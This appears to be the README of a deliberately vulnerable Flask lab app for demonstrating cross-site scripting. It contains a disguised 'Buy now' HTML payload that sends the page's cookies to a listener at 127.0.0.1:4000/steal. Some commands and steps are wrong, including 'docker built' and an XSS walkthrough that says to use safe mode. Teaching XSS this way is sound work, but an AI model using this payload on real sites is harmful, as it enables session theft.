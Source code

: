 # Flask Books XSS

## Running in Docker

1. Build

```bash
docker built -t books-xss:latest
```

2. Run (in vulnerable mode)

```bash
docker run --rm -p 8080:5000 -e VULNERABLE_MODE=true books-xss:latest
```
-> Access page on http://localhost:8080

3. Run (in safe mode)
```bash
docker run --rm -p 8080:5000 -e VULNERABLE_MODE=false books-xss:latest
```


## How to XSS (fetch cookies)

1. Run app in safe mode (as described previously)

2. As an example, paste this into the Title field:

```html
<div style="padding:8px;border:1px solid #cc0000;background:#fff7f7">
  <strong>🔥 Limited offer:</strong>
  <button style="padding:6px 10px;border:0;background:#0070f3;color:#fff;cursor:pointer"
    onclick='(function(){
		fetch("http://127.0.0.1:4000/steal?c=" + encodeURIComponent(document.cookie));	
          })()'>
    Buy now
  </button>
</div>
```

3. Open an external command-line session

4. Run `python -m http.server -port 4000`

5. On the web app, click "buy now" which will trigger the cookie fetching

6. Look at your command-line terminal, which should have logged a request with cookie information in the URL

## Project layout

```bash
flask-books-xss/
├─ pyproject.toml                 # Poetry 2 (PEP 621)
├─ flask_books_xss/
│  ├─ __init__.py                 # app factory, env parsing
│  ├─ app.py                      # CLI entry (exposes `app`)
│  ├─ db.py / storage.py          # SQLAlchemy + helpers
│  ├─ routes.py                   # web blueprint
│  └─ templates/
│     └─ index.html               # uses {{ vulnerable }} flag
└─ (instance/)                    # created at runtime for SQLite

```